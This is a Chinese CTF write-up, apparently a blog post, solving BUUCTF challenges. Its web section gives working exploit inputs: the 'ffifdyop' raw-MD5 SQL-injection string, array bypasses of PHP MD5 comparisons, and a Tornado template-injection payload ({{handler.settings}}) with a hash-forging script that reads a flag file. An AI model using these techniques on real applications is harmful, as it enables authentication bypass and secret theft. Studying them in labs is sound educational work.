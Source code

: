 # BUUCTF-MD5强弱比较-MD5()的万能密码-tornado框架注入-中文电码

第六周 第三次

**目录**

[TOC]



## 学习到的知识

#### 1.MD5强弱比较可以都可以使用数组绕过

#### 2.基于MD5()的万能密码    ffifdyop



## WEB

### [BJDCTF2020]Easy MD5



<img src="https://i-blog.csdnimg.cn/blog_migrate/7f58ce33ebf5bf87c2debd55daa80254.png" alt="" style="max-height:636px; box-sizing:content-box;" />


打开环境 什么都没有 输入任何也都没有反应 我们进行抓包



<img src="https://i-blog.csdnimg.cn/blog_migrate/a88ccc0c83d4f630c1927e4ece5d2148.png" alt="" style="max-height:203px; box-sizing:content-box;" />


发现查询语句

我们想到sql注入

发现md5函数我们进行搜索

```cobol
md5(1,2)
 
1:是要进行计算的字符串
2：可选  是TRUE 就是将计算完的数字进行16位字符二进制输出
        是FALSE 就是将计算完的数字进行32位字符十六进制输出
```

所以我们明白 我们需要输入一个能够将 16位二进制变为sql注入语句的

我们想到万能密码

在mysql中  对于字符串

```cobol
''or'1xxxxxx' ---->True
''or'0xxxxxx' ---->False
```





所以我们要找到一个字符串 转换为hex 后再变为字符能为'or'非0

```cobol
ffifdyop
 
变为hex后为
 
276F722736C95D99E921722CF9ED621C
 
转为字符串后
 
'or'6É]é!r,ùíb
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/e229fa76dc8b51c488892cd548d1e8df.png" alt="" style="max-height:363px; box-sizing:content-box;" />


所以我们输入这个字符串



<img src="https://i-blog.csdnimg.cn/blog_migrate/94243b222f56058723aef7cade9f8c00.png" alt="" style="max-height:404px; box-sizing:content-box;" />


查看源代码



<img src="https://i-blog.csdnimg.cn/blog_migrate/b8cb392ea7e932ed5f2582742a255e4e.png" alt="" style="max-height:249px; box-sizing:content-box;" />


发现弱比较

使用数组绕过

 [MD5绕过（强弱类型比较）_md5弱类型比较_陈wonton的博客-CSDN博客](https://blog.csdn.net/weixin_43332695/article/details/119349204) 

```cobol
?a[]=1&b[]=2
```





<img src="https://i-blog.csdnimg.cn/blog_migrate/5c36d6df1a626a581ff46a5eda03e734.png" alt="" style="max-height:353px; box-sizing:content-box;" />


发现MD5强比较

继续使用数组绕过

```cobol
param1[]=1&param2[]=3
```

得到flag

### [护网杯 2018]easy_tornado

这道对我来说特别新 并且是边看边做

本质是 **SSTI注入** 

并且 题目也提示我们了

tornado是 python编写的框架

类似于后端渲染

```sql
sql注入是用户输入的代码
SSTI注入是框架的注入
```

所以我们开始答题



<img src="https://i-blog.csdnimg.cn/blog_migrate/df27bd356c316b80211ebcd2ab798281.png" alt="" style="max-height:203px; box-sizing:content-box;" />


打开环境 一个一个看过去



<img src="https://i-blog.csdnimg.cn/blog_migrate/3e381fed1f8875f523c8afa48d769654.png" alt="" style="max-height:270px; box-sizing:content-box;" />


在每一个url上面都有一个 hash 然后这个文件就给我们是怎么计算哈希的

我们现在需要找 cookie_secret这个的数值

然后 我们搜索 发现cookie_secret这个是在tornado框架有的文件

在handler.settings 文件下

所以我们寻找注入点

当我们把hash值改变后得到



<img src="https://i-blog.csdnimg.cn/blog_migrate/0fd5a6bfe9a34f981458ad093ac988dc.png" alt="" style="max-height:142px; box-sizing:content-box;" />


我们看看更改error



<img src="https://i-blog.csdnimg.cn/blog_migrate/22af130689bbde2b1a9058068110c60b.png" alt="" style="max-height:221px; box-sizing:content-box;" />


url改什么 他都会返回什么 所以我们找到注入点了 我们在这上面进行框架注入

注意 这个框架注入需要用{{}}来注入

```handlebars
error?msg={{handler.settings}}
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/3f8e572b64d82e3d750c891484dbd103.png" alt="" style="max-height:165px; box-sizing:content-box;" />


得到了数值 然后我们进行计算

```cobol
import hashlib
hash = hashlib.md5()
 
filename='/fllllllllllllag'
cookie_secret="b2ab97ba-5c7a-4fff-a8f5-c459b76e6b8a"
hash.update(filename.encode('utf-8'))
s1=hash.hexdigest()
hash = hashlib.md5()
hash.update((cookie_secret+s1).encode('utf-8'))
print(hash.hexdigest())
```

然后构造

```cobol
file?filename=/fllllllllllllag&filehash=c446c58655463f690c65a78092d75fc3
```

得到flag

 [[护网杯 2018]easy_tornado WriteUp（超级详细！）_lunan0320的博客-CSDN博客](https://blog.csdn.net/qq_51927659/article/details/116031923) 

## Crypto

### 信息化时代的步伐

得到新的加密方法 中文电码

 [中文电码查询 - 中文电码转换 - 中文电码对照表](https://dianma.bmcx.com/) 



<img src="https://i-blog.csdnimg.cn/blog_migrate/1db3af4e4eb6e324d9b507932610fac9.png" alt="" style="max-height:180px; box-sizing:content-box;" />


### 凯撒？替换？呵呵!

我们进行比对 MTHJ得到flag



<img src="https://i-blog.csdnimg.cn/blog_migrate/b0ddcf4d4e4e7616a906a5622c3e9c49.png" alt="" style="max-height:412px; box-sizing:content-box;" />


 [quipqiup - cryptoquip and cryptogram solver](https://quipqiup.com/) 

使用这个暴力破解



<img src="https://i-blog.csdnimg.cn/blog_migrate/adcbeb65f32e08f8a3501b2ce4c0aadf.png" alt="" style="max-height:192px; box-sizing:content-box;" />


发现第一条就是可以读的句子

## Misc

### 神秘龙卷风

暴力破解

 [Brainfuck - interpreter online](http://bf.doleczek.pl/) 



<img src="https://i-blog.csdnimg.cn/blog_migrate/815101fbefb4c256faca0080c376f675.png" alt="" style="max-height:781px; box-sizing:content-box;" />


放入网站

<img src="https://i-blog.csdnimg.cn/blog_migrate/6b1cf420a8621abec73eeb49eb128d44.png" alt="" style="max-height:169px; box-sizing:content-box;" />


得到flag